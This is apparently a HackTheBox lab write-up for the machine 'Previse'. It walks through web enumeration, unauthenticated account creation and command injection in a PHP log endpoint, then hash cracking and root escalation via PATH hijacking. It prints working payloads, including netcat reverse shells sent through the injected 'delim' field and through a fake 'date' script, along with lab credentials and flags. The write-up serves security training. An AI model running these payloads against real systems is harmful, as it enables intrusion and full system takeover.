









# Previse - HackTheBox - Writeup
Linux, 20 Base Points, Easy

## Machine



## TL;DR

To solve this machine, we begin by enumerating open services using ```namp``` – finding ports ```22``` and ```80```.

***User***: Running ```gobuster``` and found ```acounts.php``` page, Using that we can create a new account, From the web portal we download ```SITEBACKUP.ZIP``` file which contains the code of ```logs.php```, By reading the code we found RCE on ```delim``` parameter and found also DB credentials on ```config.php``` file. Using the RCE on ```logs.php``` we get a reverse shell as ```www-data```, Cracking the hash of ```m4lwhere``` user which takes from DB and login as ```m4lwhere``` user.

***Root***: By running ```sudo -l``` we found ```/opt/scripts/access_backup.sh```, Because we have permission to change the ```PATH``` we just create our custom ```date``` command to get a reverse shell as ```root```.



## Previse Solution

### User

Let's start with ```nmap``` scanning:

```console
┌─[evyatar@parrot]─[/hackthebox/Previse]
└──╼ $ nmap -p- -v -sV -sC -oA nmap/Previse 10.129.158.215
Starting Nmap 7.80 ( https://nmap.org ) at 2021-08-10 00:14 IDT
Nmap scan report for 10.129.158.215
Host is up (0.26s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 53:ed:44:40:11:6e:8b:da:69:85:79:c0:81:f2:3a:12 (RSA)
|   256 bc:54:20:ac:17:23:bb:50:20:f4:e1:6e:62:0f:01:b5 (ECDSA)
|_  256 33:c1:89:ea:59:73:b1:78:84:38:a4:21:10:0c:91:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Previse Login
|_Requested resource was login.php
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.99 seconds

```

By observing port 80 we get the following web page:



By running ```gobuster``` we found the following web page [http://10.129.158.215/nav.php](http://10.129.158.215/nav.php):



Where ```Create Accounts``` page URL is [http://10.129.158.215/accounts.php](http://10.129.158.215/accounts.php), Let's try to browse this web page using BurpSuite:



Let's observe the following HTML section:
```html
...
<section class="uk-section uk-section-default">
    <div class="uk-container">
        <h2 class="uk-heading-divider">Add New Account</h2>
        <p>Create new user.</p>
        <p class="uk-alert-danger">ONLY ADMINS SHOULD BE ABLE TO ACCESS THIS PAGE!!</p>
        <p>Usernames and passwords must be between 5 and 32 characters!</p>
    </p>
        <form role="form" method="post" action="accounts.php">
            <div class="uk-margin">
                <div class="uk-inline">
                    <span class="uk-form-icon" uk-icon="icon: user"></span>
                    <input type="text" name="username" class="uk-input" id="username" placeholder="Username">
                </div>
            </div>
            <div class="uk-margin">
                <div class="uk-inline">
                    <span class="uk-form-icon" uk-icon="icon: lock"></span>
                    <input type="password" name="password" class="uk-input" id="password" placeholder="Password">
                </div>
            </div>
            <div class="uk-margin">
                <div class="uk-inline">
                    <span class="uk-form-icon" uk-icon="icon: lock"></span>
                    <input type="password" name="confirm" class="uk-input" id="confirm" placeholder="Confirm Password">
                </div>
            </div>
            <button type="submit" name="submit" class="uk-button uk-button-default">CREATE USER</button>
        </form>
    </div>
</section>
```

We can make a POST request to this web page to create a new user as follow:
```HTTP
POST /accounts.php HTTP/1.1
Host: 10.129.158.215
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 52
Origin: http://10.129.158.215
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1

username=evyatar9&password=evevev&confirm=evevev
```

Send it:



Great, Let's logi n using those credentials,  we can see the following web page:



By clicking on the ```Files``` button we get the following web page:



The file ```SITEBACKUP.ZIP``` contains the following content:
```console
┌─[evyatar@parrot]─[/hackthebox/Previse/sitesbackup]
└──╼ $ ls
accounts.php  download.php   files.php   header.php  login.php   logs.php  status.php
config.php    file_logs.php  footer.php  index.php   logout.php  nav.php
```

By observing ```config.php``` we found the following credentials that maybe we need later:
```php
<?php

function connectDB(){
    $host = 'localhost';
    $user = 'root';
    $passwd = 'mySQL_p@ssw0rd!:)';
    $db = 'previse';
    $mycon = new mysqli($host, $user, $passwd, $db);
    return $mycon;
}
?>
```

By clicking on ```Managment Data -> Log Data``` we get the following page:



By clicking on Submit button It's make request to ```/logs.php```, Let's observe the code of ```logs.php```:
```php
<?php
session_start();
if (!isset($_SESSION['user'])) {
    header('Location: login.php');
    exit;
}
?>

<?php
if (!$_SERVER['REQUEST_METHOD'] == 'POST') {
    header('Location: login.php');
    exit;
}

/////////////////////////////////////////////////////////////////////////////////////
//I tried really hard to parse the log delims in PHP, but python was SO MUCH EASIER//
/////////////////////////////////////////////////////////////////////////////////////

$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
echo $output;

$filepath = "/var/www/out.log";
$filename = "out.log";    

if(file_exists($filepath)) {
    header('Content-Description: File Transfer');
    header('Content-Type: application/octet-stream');
    header('Content-Disposition: attachment; filename="'.basename($filepath).'"');
    header('Expires: 0');
    header('Cache-Control: must-revalidate');
    header('Pragma: public');
    header('Content-Length: ' . filesize($filepath));
    ob_clean(); // Discard data in the output buffer
    flush(); // Flush system headers
    readfile($filepath);
    die();
} else {
    http_response_code(404);
    die();
} 
?>

```

We can see the following line 

```php
$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
```

we can get RCE by injecting the command on ```delim``` parameter as follow:
```HTTP
POST /logs.php HTTP/1.1
Host: 10.129.158.215
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 28
Origin: http://10.129.158.215
DNT: 1
Cookie: PHPSESSID=sqnl9fg82cod9iism3aikbv6uk
Connection: close
Upgrade-Insecure-Requests: 1


delim=| ping -c1 10.10.16.52
```

Let's run ```tcmpdump``` to see the ```ping``` request:
```console
┌─[evyatar@parrot]─[/hackthebox/Previse/sitesbackup]
└──╼ $ sudo tcpdump -i tun0 icmp
[sudo] password for user: 
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
01:10:38.874941 IP 10.129.158.215 > 10.10.16.52: ICMP echo request, id 3660, seq 1, length 64
01:10:38.874993 IP 10.10.16.52 > 10.129.158.215: ICMP echo reply, id 3660, seq 1, length 64
```

And we have RCE, Let's get a reverse shell:
```HTTP
POST /logs.php HTTP/1.1
Host: 10.129.158.215
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 28
Origin: http://10.129.158.215
DNT: 1
Cookie: PHPSESSID=sqnl9fg82cod9iism3aikbv6uk
Connection: close
Upgrade-Insecure-Requests: 1


delim=| nc 10.10.16.52 4444 -e /bin/bash
```

Listen before to port ```4444``` using ```nc``` to get the shell:
```console
┌─[evyatar@parrot]─[/hackthebox/Previse/sitesbackup]
└──╼ $ nc -lvp 4444
listening on [any] 4444 ...
10.129.158.215: inverse host lookup failed: Unknown host
connect to [10.10.16.52] from (UNKNOWN) [10.129.158.215] 52588
python -c 'import pty; pty.spawn("/bin/sh")'
$ whoami
whoami
www-data
```

We have the database credentials, Let's try to get information from DB:
```console
$ export DB_PWD="mySQL_p@ssw0rd!:)"
export DB_PWD="mySQL_p@ssw0rd!:)"
$ mysql -u root -p$DB_PWD -e "Show databases;"
mysql -u root -p$DB_PWD -e "Show databases;"
mysql: [Warning] Using a password on the command line interface can be insecure.
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| previse            |
| sys                |
+--------------------+
$ mysql -u root -p$DB_PWD -e "use previse; show tables;"
mysql -u root -p$DB_PWD -e "use previse; show tables;"
mysql: [Warning] Using a password on the command line interface can be insecure.
+-------------------+
| Tables_in_previse |
+-------------------+
| accounts          |
| files             |
+-------------------+
$ mysql -u root -p$DB_PWD -e "use previse; select * from accounts;"
cat acc.log.bkp 
id	username	password	created_at
1	m4lwhere	$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.	2021-05-27 18:18:36
3	evyatar9	$1$🧂llol$VW2XgcMA/teTJ31v.Nz44.	2021-08-09 21:53:04
```

Let's try to crack ```m4lwhere``` hash using ```john``` with specify format ```md5crypt-long``` (It's take around 4-5 min):
```console
┌─[evyatar@parrot]─[/hackthebox/Previse/sitesbackup]
└──╼ $ john --wordlist=~/Desktop/rockyou.txt --format=md5crypt-long acc.log
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt-long, crypt(3) $1$ (and variants) [MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ilovecody112235! (?)
1g 0:00:06:02 DONE (2021-08-10 01:56) 0.002760g/s 20463p/s 20463c/s 20463C/s ilovecodyb..ilovecody*
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```

And we get the credentials of ````m4lwhere``` user which is ```ilovecody112235!```, Let's try using them on SSH:
```console
┌─[evyatar@parrot]─[/hackthebox/Previse]
└──╼ $ ssh m4lwhere@10.129.158.215
m4lwhere@10.129.158.215's password: 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-151-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Aug  9 22:59:01 UTC 2021

  System load:  0.0               Processes:           180
  Usage of /:   52.2% of 4.85GB   Users logged in:     0
  Memory usage: 32%               IP address for eth0: 10.129.158.215
  Swap usage:   0%


0 updates can be applied immediately.


Last login: Fri Jun 18 01:09:10 2021 from 10.10.10.5
m4lwhere@previse:~$ cat user.txt
b65d73de28b3e85d9579f71b103e3850
```

And we get the user flag ```b65d73de28b3e85d9579f71b103e3850```.

### Root

By running ```sudo -l``` we found:
```console
m4lwhere@previse:~$ sudo -l
[sudo] password for m4lwhere: 
User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh
```

Let's observe this script:
```bash
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```

We can change the ```PATH```, So le'ts create our ```date``` command as follow:
```console
m4lwhere@previse:/tmp$ cat date
/bin/nc 10.10.16.52 1111 -e /bin/bash
m4lwhere@previse:/tmp$ chmod 777 date
```

Change the ```PATH``` to contain only ```/tmp``` folder to look only on our ```date``` command as follow:
```console
m4lwhere@previse:/tmp$ export PATH=/t
```

Create ```nc``` listner:
```console
┌─[evyatar@parrot]─[/hackthebox/Previse]
└──╼ $ nc -lvp 1111
listening on [any] 1111 ...

```

And run the ```backup.sh``` script as follow:
```console
m4lwhere@previse:/tmp$ /usr/bin/sudo /opt/scripts/access_backup.sh
```

And we get root shell:
```console
┌─[evyatar@parrot]─[/hackthebox/Previse]
└──╼ $ nc -lvp 1111
listening on [any] 1111 ...
10.129.158.215: inverse host lookup failed: Unknown host
connect to [10.10.16.52] from (UNKNOWN) [10.129.158.215] 60052
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
whoami
root
cat /root/root.txt
a2fd1369de4c5b52fe9b68612d47ddd8
```

And we get the root flag ```a2fd1369de4c5b52fe9b68612d47ddd8```.
